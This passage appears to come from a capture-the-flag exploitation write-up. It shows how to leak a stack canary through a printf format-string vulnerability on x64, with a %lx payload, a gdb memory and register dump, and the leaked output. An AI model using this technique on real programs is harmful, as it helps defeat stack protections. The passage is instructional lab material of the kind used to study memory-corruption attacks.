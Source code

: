 How do we read the stack canary value using printf?

> Instead of a decimal digit string one may write "*" or "*m$" (for some decimal integer m) to specify that the field width is given in the next argument, or in the m-th argument, respectively, which must be of type int.
[source](https://linux.die.net/man/3/printf)

We know that the stack canary is located at address `rsp+0x208`. In a way, `printf` could treat it as an argument to be printed out. Keep in mind though, now we are dealing with x64 and *not x32*. In x32, arguments are passed through the stack, while in x64, System V AMD64 ABI passes arguments through registers instead. 

```
Choice [0 exit][1 small][2 large][3 format]: 3
Path 3 - The possibilities are endless!
%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx
0x7fffffffda40:	0x2d786c25	0x2d786c25	0x2d786c25	0x2d786c25
0x7fffffffda50:	0x2d786c25	0x2d786c25	0x2d786c25	0x2d786c25
0x7fffffffda60:	0x2d786c25	0x2d786c25	0x2d786c25	0x2d786c25
0x7fffffffda70:	0x2d786c25	0x0a786c25	0x00000000	0x00000000
0x7fffffffda80:	0x00400b10	0x00000000	0xf7de6ac6	0x00007fff
0x7fffffffda90:	0x00000001	0x00000000	0x00000000	0x00000000
0x7fffffffdaa0:	0x00000000	0xff000000	0xf7a15148	0x00007fff
0x7fffffffdab0:	0xffffdc40	0x00007fff	0xf7dee923	0x00007fff
rax            0x0	0
rbx            0x0	0
rcx            0x2d786c252d786c25	3276487635844492325
rdx            0x7ffff7dd3790	140737351858064
rsi            0x602048	6299720
rdi            0x7fffffffda40	140737488345664
rbp            0x400b10	0x400b10 <__libc_csu_init>
rsp            0x7fffffffda40	0x7fffffffda40
r8             0x602048	6299720
r9             0x2d786c252d786c25	3276487635844492325
r10            0x2d786c252d786c25	3276487635844492325
r11            0x246	582
r12            0x4008a0	4196512
r13            0x7fffffffdd50	140737488346448
r14            0x0	0
r15            0x0	0
rip            0x400a9d	0x400a9d <format_string+61>
eflags         0x246	[ PF ZF IF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
es             0x0	0
fs             0x0	0
gs             0x0	0
---Type <return> to continue, or q <return> to quit---

Breakpoint 1, 0x0000000000400a9d in format_string ()
=> 0x0000000000400a9d <format_string+61>:	e8 9e fc ff ff	call   0x400740 <printf@plt>
(gdb) c
Continuing.
602048-7ffff7dd3790-2d786c252d786c25-602048-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-a786c252d786c25-0-400b10
Still alive?
```